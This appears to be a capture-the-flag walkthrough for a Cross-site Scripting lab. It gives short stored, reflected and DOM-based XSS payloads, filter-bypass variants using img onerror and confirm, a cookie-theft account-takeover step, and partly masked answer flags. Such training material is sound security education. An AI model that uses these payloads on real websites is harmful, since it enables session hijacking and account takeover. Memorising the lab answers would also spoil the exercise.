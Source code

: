 # Cross-site Scripting

- Read the introduction.

	  no answer needed

- Deploy the machine and navigate to http://<TARGET_IP>

	  no answer needed

- The machine you deployed earlier will guide you though exploiting some cool vulnerabilities, stored XSS has to offer. There are hints for answering these questions on the machine.

	  no answer needed

- Add a comment and see if you can insert some of your own HTML.

	- `<p>comment</p>`
	- `HTML_****`

- Create an alert popup box appear on the page with your document cookies.

	- `<script>alert(document.cookie)</script>`
	- `W3LL_***********`

- Change "XSS Playground" to "I am a hacker" by adding comments and using Javascript.

	- ` <script>document.getElementById('thm-title').innerHTML="I am a hacker"</script>`
	- `websites****************************`

- Take over Jack's account by stealing his cookie, what was his cookie value?

	- `s%3Aat0YY*******************************************************`

- Post a comment as Jack.

	- `c00k***********`

- Craft a reflected XSS payload that will cause a popup saying "Hello"

	- `<script>alert("Hello")</script>`
	- `There**************************`

- Craft a reflected XSS payload that will cause a popup with your machines IP address.

	- `<script>alert(window.location.hostname)</script>`
	- `Ref***************`

- Look at the deployed machines DOM-Based XSS page source code, and figure out a way to exploit it by executing an alert with your cookies.

	- `test ' onmouseover="alert(document.cookie)"`
	- `Br******************`

- Create an onhover event on an image tag, that change the background color of the website to red.

	- `test " onhover="document.body.style.backgroundColor='red'`
	- `Jav**************`

- Understand the basic proof of concept script.

	  no answer needed

- Create your own version of an XSS keylogger and see it appear in the logs part of the site.

	  no answer needed

- Bypass the filter that removes any script tags.

	- `<img src="edoardottt" onerror=alert("Helloooo") />`
	- `3c3cf****************************`

- The word alert is filtered, bypass it.

	- The same but with `confirm`.
	- `a2e5e*****************************`

- The word hello is filtered, bypass it.

	- The same but with payload `Hi :)`.
	- `decb*****************************`

- Filtered in challenge 4 is as follows...

	- `<img src="edoardottt" ONERROR="alert('edoardottt')" />`
	- `2482d2****************************`

- Download and experiment with BeEF with the XSS playground.

	  no answer needed

- Take a look at XSS-Payloads.com, download one interesting looking payload and use it on the XSS playground.

	  no answer needed
